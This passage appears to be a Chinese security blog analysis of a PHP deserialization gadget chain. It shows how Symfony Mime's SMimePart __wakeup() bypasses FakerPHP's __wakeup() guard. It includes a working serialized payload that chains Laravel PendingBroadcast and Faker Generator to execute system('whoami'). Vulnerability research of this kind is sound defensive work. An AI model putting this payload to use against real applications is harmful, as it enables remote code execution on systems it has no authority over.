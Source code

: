 ![image-20220720170748370](images/13.png)

## 漏洞分析

在 laravel < v5.7 , yii2 < 2.0.38 的情况下， `Faker\Generator` 是非常好用的反序列化 gagdet ，但是从 `FakerPHP v 1.12.1` 之后， `Generator.php` 中加了个 `__wakeup()` 方法

![image-20220720171514252](images/14.png)

我们在这个gadget中，就需要去寻找一个在`Faker\Generator` 的wakeup执行之后，对某个参数进行赋值的方法，然后再将formatters与这个参数绑定，从而改变这里formatters的值

这里就可以去找一些存在赋值的wakeup方法，其中最好有类似这样的代码

```
$this->demo1 = $this->demo2;

$this->demo1[$this->demo2] = $this->demo3;
```

就是存在可控的赋值，这里师傅们找到了一个类Symfony\Component\Mime\Part\SMimePart.php的wakeup

```
public function __wakeup(): void
{
    $r = new \ReflectionProperty(AbstractPart::class, 'headers');
    $r->setAccessible(true);
    $r->setValue($this, $this->_headers);
    unset($this->_headers);
}
```

这个类来自 https://github.com/symfony/mime ，其 `$headers` 属性继承自其父类 `AbstractPart`，`__wakeup()` 当中使用反射给 `$headers` 赋值

翻看 git log ，可以看到从项目建立开始，这个 `SMimePart` 的 `__wakeup()` 就存在，而且没有变过（ 也就是说凡是使用了 `symfony/mime` 这个依赖的项目，其 `__wakeup()` 都可能可以绕过 ）

师傅还找到了`Part/DataPart.php` 和 `Part/TextPart.php` 的 `__wakeup()` 也 和 `Part/SMimePart.php` 大致相同，一样可以被用作 gadget

这里贴一个参考链接http://tttang.com/archive/1603/

序列化数据如下

```
O:37:"Symfony\Component\Mime\Part\SMimePart":3:{s:49:"Symfony\Component\Mime\Part\AbstractPartheaders";N;s:11:"*_headers";a:1:{s:8:"dispatch";s:6:"system";}s:8:"DawnT0wn";O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:5:"event";s:6:"whoami";s:6:"events";O:15:"Faker\Generator":3:{s:12:"*providers";a:0:{}s:13:"*formatters";i:9999;s:9:"formatter";s:8:"dispatch";}}}

只需要将i:9999改为R:2即可
```

在反序列化中，我们会先调用最内层的wakeup方法，所以`Faker\Generator` 的wakeup会最先执行，然后在执行`SMimePart` 的 `__wakeup()` 方法，

![image-20220720173956400](images/15.png)
